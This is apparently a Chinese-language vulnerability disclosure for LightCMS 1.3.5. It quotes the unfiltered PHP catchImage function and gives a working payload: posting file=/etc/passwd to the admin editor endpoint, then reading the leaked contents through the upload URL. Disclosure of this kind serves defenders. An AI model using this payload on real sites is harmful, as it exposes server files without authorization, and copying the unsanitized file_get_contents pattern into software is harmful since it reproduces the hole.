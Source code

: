 # LightCMS1.3.5存在任意文件读取漏洞



存在漏洞的函数在`app/Http/Controllers/Admin/NEditorController.php`

```
public function catchImage(Request $request)
    {
        if (config('light.image_upload.driver') !== 'local') {
            $class = config('light.image_upload.class');
            return call_user_func([new $class, 'catchImage'], $request);
        }

        $files = (array) $request->post('file');
        $urls = [];
        foreach ($files as $v) {
            $extention = pathinfo(parse_url($v, PHP_URL_PATH), PATHINFO_EXTENSION);
            $path = date('Ym') . '/' . md5($v) . '.' . ($extention == '' ? 'jpg' : $extention);
            Storage::disk(config('light.neditor.disk'))
                ->put($path, file_get_contents($v));
            $urls[] = [
                'url' => Storage::disk(config('light.neditor.disk'))->url($path),
                'source' => $v,
                'state' => 'SUCCESS'
            ];
        }

        return [
           'list' => $urls
        ];
    }
```

我们可以看到在catchImage函数当中，并未对传入的参数进行过滤，因此我们可以在`http://url/admin/neditor/serve/catchImage`页面post传入

```
file=/etc/passwd
```



![](pic/1.png)

拼接访问

```
http://url/upload/image/202104/c5068b7c2b1707f8939b283a2758a691.jpg
```

得到泄露文件内容信息

![](pic/2.png)